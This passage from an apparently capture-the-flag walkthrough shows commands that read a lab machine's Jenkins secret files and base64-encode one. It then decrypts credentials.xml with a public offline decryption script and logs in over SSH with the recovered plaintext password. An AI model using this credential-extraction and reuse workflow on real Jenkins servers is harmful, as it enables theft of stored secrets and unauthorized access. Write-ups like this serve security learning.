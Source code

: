 And with the last one, I have to encode it because it is binary:
```shell
$ jenkins@leeroy:~$ cat secrets/hudson.util.Secret | base64
```
And I store them in my attack machine:
```shell
$ echo -n "ak4UVryKKpMdoDE3UaOEFbJdU03XFgw5VJ0tdb4K1MOUiiP0w8o47BqbzuFJTEb
SDzrEAywG+g5WIYdp6GVcM5Sb/uDGgeBiT1iK8FzORW9QsMPT6B2isMOXvSzRsDEECoAfcZ124
8eyj2oKHGmQQsGiAwTAbQVNwN7GpD7fHDN3bcL4cFtJvKyjac5JzqSSVXHiE74e6chVdF7clZ2
ofiXoC7pwODjqE/uCkXNbzphLkNPdzT2Z4yfXoS1b8Fj9sl/HtKin/Cr839r4vk4rsAsLVaJL1
rNVMDqjTZq+1VHrdnq05T1NtXVCQYBpCBpN/NW5p6DMtweSN06jLuo5DImKG+jK3Y/QUh6ReCW
h0zk=" | base64 -d > hudson.util.Secret
```
When I download the [`jenkins_offline_decrypt.py`](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) that I found on Hacktricks
```shell
$ wget "https://raw.githubusercontent.com/gquere/pwn_jenkins/master/
> offline_decryption/jenkins_offline_decrypt.py"
```
And I use the `jenkins_offline_decrypt.py` Python3 script:
```shell
$ python3 jenkins_offline_decrypt.py master.key hudson.util.Secret c\
> redentials.xml
```
But I need to install `pycryptodome`:
```shell
$ pip install pycryptodome
```
And I run the `jenkins_offline_decrypt.py` script again, then it works:

![evidence](./static/20-jenkins-decrypted.png)

And I get the credentials `leeroy:ew3@PHQiX2RtP1ra!GZs`, and I know that it is the `WordPress` login credentials, but I want to test it with the `ssh` connection, when I use the `ssh` command:
```shell
$ sshpass -p 'ew3@PHQiX2RtP1ra!GZs' ssh leeroy@192.168.56.113
```
Then it works, and I can get the shell of the user `leeroy`, and I can get the user flag:
